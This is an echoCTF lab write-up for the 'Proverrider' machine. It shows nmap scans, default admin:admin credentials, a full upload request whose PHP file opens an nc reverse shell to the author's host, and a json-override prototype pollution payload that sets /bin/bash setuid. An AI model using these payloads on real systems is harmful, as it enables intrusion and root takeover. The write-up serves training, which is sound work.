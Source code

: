 ```yaml
---
description: >-
  Proverrider echoCTF Machine
title: Proverrider (Intermediate)                # Add title here
date: 2025-02-24 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, Prototype Pollution, CE Phoenix]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Proverrider.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.232
```

### Content

- Default Credentials
- ProjeQtOr Project Management System 10.3.2 - Remote Code Execution (RCE)
- json-override Prototype Pollution

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.232
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.232 ()   Status: Up
Host: 10.0.160.232 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.231
Nmap scan report for 10.0.160.231
Host is up, received user-set (0.17s latency).
Scanned at 2025-02-24 19:56:59 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:8b:4a:b8:d8:62:4d:cb:59:4a:c7:7c:43:0c:7d:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIRQzh/YlEJzovVge+51kZ1Mx5xft/0I/1RPWVmuZuJs
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
|_http-title: Echo Phoenix
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

There is a Web Service running on port 80 called `ProjeQtOr` looking for exploits on it, we identified the following [ProjeQtOr Project Management System 10.3.2 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51387), but the exploit requires authentication, I then tried to login using Default Credentials, and I got the pair `admin:admin`, with this, we can execute the script which is an OS Command Injection vulnerability, using the following POST request:
```bash
POST /tool/saveAttachment.php?csrfToken= HTTP/1.1
Host: localhost
Content-Length: 1206
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
Accept: application/json
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY0bpJaQzcvQberWR
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/projeqtor/view/main.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=89ce98he4mk9p23ou29ul08bod
Connection: close

------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentFiles[]"; filename="miri.phar"
Content-Type: application/octet-stream

<?php echo system("nc -e /bin/bash 10.10.5.122 1234"); ?>

------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentId"


------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentRefType"

User
------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentRefId"

1
------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentType"

file
------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10485760
------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentLink"


------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentDescription"


------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="attachmentPrivacy"

1
------WebKitFormBoundaryY0bpJaQzcvQberWR
Content-Disposition: form-data; name="uploadType"

html5
------WebKitFormBoundaryY0bpJaQzcvQberWR--
```
Then all we need to do is go to the location where it is uploaded, consider that every attached file will add 1 to the URI count `attachment_3`, if we upload another file then the URL to get the file will be `attachment_4` and so on:
```bash
http://10.0.160.232/files/attach/attachment_3/miri.phar
```

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@proverrider:/var/www/html/files/attach/attachment_3$ sudo -l
Matching Defaults entries for www-data on proverrider:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on proverrider:
    (ALL : ALL) NOPASSWD: /usr/local/bin/overrider
```
Its content is like this:
```bash
#! /usr/bin/env node
var args = process.argv.slice(2);
(async () => {
  const lib = await import('json-override');
  const { exec } = await import('child_process');
  var defaults = JSON.parse(args[0]);
  var user = {}
try {
  lib.default ({}, defaults)
} catch (e) { }
  if(user.is_admin==true)
  {
    exec(user.cmd);
  }
})();
```

As usual, the vulnerability relays on the imported library, in this case `json-override`, there is a vulnerability reported as [Prototype Pollution in json-override](https://gist.github.com/mestrtee/97a9a7d73fc8b38fcf01322239dd5fb1), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
www-data@proverrider:/var/www/html/files/attach/attachment_3$ echo '{"__proto__": {"is_admin": true, "cmd": "chmod +s /bin/bash"}}' > payload.json
www-data@proverrider:/var/www/html/files/attach/attachment_3$ sudo /usr/local/bin/overrider "$(cat payload.json)"www-data@proverrider:/var/www/html/files/attach/attachment_3$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials identified for ProjeQtOr CMS are `admin:admin`

### Notes

- No fancy tricks here, all you need to search for is a good exploitation and default credentials.

### References

- [ProjeQtOr Project Management System 10.3.2 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51387)
- [Prototype Pollution in json-override](https://gist.github.com/mestrtee/97a9a7d73fc8b38fcf01322239dd5fb1)

